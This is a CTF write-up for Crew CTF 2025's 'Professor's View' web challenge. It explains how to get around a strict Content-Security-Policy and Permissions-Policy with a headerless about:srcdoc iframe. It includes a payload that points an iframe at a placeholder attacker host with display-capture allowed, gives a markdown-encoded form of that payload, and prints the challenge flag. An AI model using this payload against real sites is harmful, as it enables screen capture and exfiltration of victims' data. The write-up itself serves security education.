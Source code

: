 +++
date = '2025-09-26T14:55:38+07:00'
title = 'Crew CTF 2025 - Professor View Write-up'
tags = ['Crew CTF 2025', 'CTFs']
description = 'A course designed to take students’ knowledge to the next level.'
draft = false

[cover]
  image = '/images/posts/crew-ctf-2025.webp'
  alt = 'Crew CTF 2025 - Professor View'
  caption = 'Crew CTF 2025 - Professor View'
  relative = false
+++

> **Room / Challenge:** Professor's View (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** CrewCTF 2025
-   **Challenge:** Professor's View (web)
-   **Target / URL:** `https://professors-view.chal.crewc.tf/`
-   **Difficulty:** `Hard`
-   **Points:** `477`
-   **Tags:** web, xss, sqli, auth, enumeration
-   **Date:** `21-09-2025`

---

## Goal

We have to get the flag of the Professor which is showned in his dashboard.

## My Solution

Here is the [Source Code](./professor-view.tar.gz)

Unlike Hate Notes and Love Notes, Professor's View response is set:

```
Content-Security-Policy: script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';
```

So from now on we can skip the XSS and CSS Exfiltration.

You can read full write-up of the author `bubu` [here](https://albertofdr.github.io/post/crewctf-2025/)

But I have the base idea:

The app has a route `/profmeet` which should be used to create meetings or calls. That can explain why the `Permissions-Policy` has `self` value for `camera`, `display-capture`.

```javascript
// Middleware to add security headers to all responses
app.use((req, res, next) => {
    // Prevent any attack
    res.setHeader('X-Content-Type-Options', 'nosniff');
    res.setHeader('X-Frame-Options', 'DENY');
    res.setHeader(
        'Content-Security-Policy',
        "script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';",
    );
    res.setHeader('Referrer-Policy', 'no-referrer');
    res.setHeader(
        'Permissions-Policy',
        'accelerometer=(),attribution-reporting=(),autoplay=(),browsing-topics=(),camera=self,captured-surface-control=(),ch-device-memory=(),ch-downlink=(),ch-dpr=(),ch-ect=(),ch-prefers-color-scheme=(),ch-prefers-reduced-motion=(),ch-rtt=(),ch-save-data=(),ch-ua=(),ch-ua-arch=(),ch-ua-bitness=(),ch-ua-form-factors=(),ch-ua-full-version=(),ch-ua-full-version-list=(),ch-ua-mobile=(),ch-ua-model=(),ch-ua-platform=(),ch-ua-platform-version=(),ch-ua-wow64=(),ch-viewport-height=(),ch-viewport-width=(),ch-width=(),clipboard-read=(),clipboard-write=(),compute-pressure=(),cross-origin-isolated=(),deferred-fetch=(),digital-credentials-get=(),display-capture=self,encrypted-media=(),ethereum=(),fullscreen=(),gamepad=(),geolocation=(),gyroscope=(),hid=(),identity-credentials-get=(),idle-detection=(),join-ad-interest-group=(),keyboard-map=(),local-fonts=(),magnetometer=(),microphone=self,midi=(),otp-credentials=(),payment=(),picture-in-picture=(),private-aggregation=(),private-state-token-issuance=(),private-state-token-redemption=(),publickey-credentials-create=(),publickey-credentials-get=(),run-ad-auction=(),screen-wake-lock=(),serial=(),shared-storage=(),shared-storage-select-url=(),solana=(),storage-access=(),sync-xhr=(),unload=(),usb=(),window-management=(),xr-spatial-tracking=()',
    );
    res.setHeader('Cache-Control', 'no-store');
    next();
});
```

There is a bypass method by using `about:srcdoc` headerless document which do not produce HTTP requests and therefore lack response headers. The payload will be constructed like this: `<iframe srcdoc="<iframe src='https://ATTACKER.com' allow='display-capture'></iframe>"></iframe>`.

In the markdown, that payload will become `&[a[srcdoc=&lt;iframe/src=&apos;https://ATTACKER.COM&apos;/allow=display-capture&gt; ](a)](a)`, because markdown blocks `<` and `>`. So we can make a complain with that payload and get the screenshot in our server.

You can view the `server.js` created by `bubu` [here](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/professors-view/solution/server.js)

![Guide image](/images/posts/professor-view-1.webp)

We can get the flag: `crew{permissions_are_fun_even_that_people_dont_really_care_1a3b7c9d}`

## Lessons Learned

-   Markdown Exploit
-   Beyond XSS Exploitation
